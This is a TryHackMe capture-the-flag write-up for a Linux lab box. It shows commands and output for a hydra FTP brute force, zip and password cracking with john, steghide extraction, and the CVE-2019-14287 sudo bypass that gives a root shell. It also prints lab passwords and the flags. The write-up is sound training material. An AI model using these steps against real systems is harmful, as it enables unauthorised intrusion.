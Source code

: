 > Mon 04 Aug 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s10.png|350]]

# Box Name / Target IP

## 1. Reconnaissance
### TCP Scan
```bash
sudo nmap -sC -sV -T4 10.10.253.126 -oN tryhackme/nmap.txt
```


| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 21   | ftp     | vsftpd 3.0.3                    |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29 ((Ubuntu))  |

## 2. Enumeration
### Web Enumeration
- Port **80** is open
- On visiting the page, a message suggests changing the `User-Agent` header.
- After cycling through various capital letters, discovered interaction with `User-Agent: C`.
```bash
curl http://10.10.253.126 -L -H "User-Agent: C"
```
Response:
```Text
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
* Discovered user `chris` and a possible password weakness.

### FTP Enumeration
- Port **21** is open
- Used the discovered username from HTTP (`chris`) to brute-force FTP login.

## 3. Exploitation
### FTP brute-force
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.253.126
```
Result:
```bash
[21][ftp] host: 10.10.253.126   login: chris   password: crystal
```
- Logged into FTP:
```bash
ftp 10.10.253.126
Name (10.10.253.126:kali): chris
Password: crystal
```
Login successful

## 4. Post-Exploitation
#### **FTP Content**
```bash
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
**To_agentJ.txt:**
```TEXT
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

#### **cutie.png Analysis (binwalk + zip2john)**
```bash
binwalk -e cutie.png
```
Found `8702.zip` inside the image. Extracted and cracked the ZIP password:
```bash
$ zip2john 8702.zip > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
**Password:** `alien`
Unzipped:
```bash
7z x 8702.zip
```
Revealed:
```TEXT
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
Decoded with Base64:
```bash
$ echo "QXJlYTUx" | base64 -d
```
**Output:** `Area51`

#### **cute-alien.jpg Analysis (steghide)**
```bash
steghide extract -sf cute-alien.jpg
```
Found:
```TEXT
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

#### User Flag
SSH into the box:
```
ssh james@10.10.253.126
```

```bash
cat ~/user_flag.txt
```
Flag: b03d975e8c92a7c04146cfa7a5a313c7
#### Root Flag
After privilege escalation:
```TEXT
cat /root/root.txt
```
**Flag:** `b53a02f55b57d4439e3341834d70c062`

## 5. Privilege Escalation
CVE-2019-14287 – Sudo Bypass
```bash
sudo -l
```
Output:
```bash
User james may run the following commands on this host:
    (ALL, !root) /bin/bash
```
Even though root is blacklisted, using `-u#-1` bypasses this:
```bash
sudo -u#-1 /bin/bash
```
You now have a root shell.

## 6. Lessons Learned / Notes
* **Tools or techniques to remember:**
	* `steghide`, `binwalk`, `zip2john`, `john`, `hydra`, `curl -H "User-Agent"`, `sudo -u#-1`.

